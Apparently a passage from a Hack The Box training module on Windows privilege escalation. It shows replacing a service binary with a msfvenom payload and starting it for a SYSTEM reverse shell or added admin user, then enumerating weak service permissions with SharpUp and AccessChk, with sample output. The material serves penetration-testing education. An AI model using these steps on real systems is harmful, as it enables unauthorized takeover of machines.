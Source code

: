 This service is also startable by unprivileged users, so we can make a backup of the original binary and replace it with a malicious binary generated with `msfvenom`. It can give us a reverse shell as `SYSTEM`, or add a local admin user and give us full administrative control over the machine.

``` batch
C:\htb> cmd /c copy /Y SecurityService.exe "C:\Program Files (x86)\PCProtect\SecurityService.exe"
C:\htb> sc start SecurityService
```

#### Weak Service Permissions

##### Reviewing SharpUp Again

Let's check the `SharpUp` output again for any modifiable services. We see the `WindscribeService` is potentially misconfigured.

``` batch
C:\htb> SharpUp.exe audit
 
=== SharpUp: Running Privilege Escalation Checks ===
 
 
=== Modifiable Services ===
 
  Name             : WindscribeService
  DisplayName      : WindscribeService
  Description      : Manages the firewall and controls the VPN tunnel
  State            : Running
  StartMode        : Auto
  PathName         : "C:\Program Files (x86)\Windscribe\WindscribeService.exe"
```

##### Checking Permissions with AccessChk

Next, we'll use [AccessChk](https://docs.microsoft.com/en-us/sysinternals/downloads/accesschk) from the Sysinternals suite to enumerate permissions on the service. The flags we use, in order, are `-q` (omit banner), `-u` (suppress errors), `-v` (verbose), `-c` (specify name of a Windows service), and `-w` (show only objects that have write access). Here we can see that all Authenticated Users have [SERVICE_ALL_ACCESS](https://docs.microsoft.com/en-us/windows/win32/services/service-security-and-access-rights) rights over the service, which means full read/write control over it.

``` batch
C:\htb> accesschk.exe /accepteula -quvcw WindscribeService
 
Accesschk v6.13 - Reports effective permissions for securable objects
Copyright ⌐ 2006-2020 Mark Russinovich
Sysinternals - www.sysinternals.com
 
WindscribeService
  Medium Mandatory Level (Default) [No-Write-Up]
  RW NT AUTHORITY\SYSTEM
        SERVICE_ALL_ACCESS
  RW BUILTIN\Administrators
        SERVICE_ALL_ACCESS
  RW NT AUTHORITY\Authenticated Users
        SERVICE_ALL_ACCESS
```

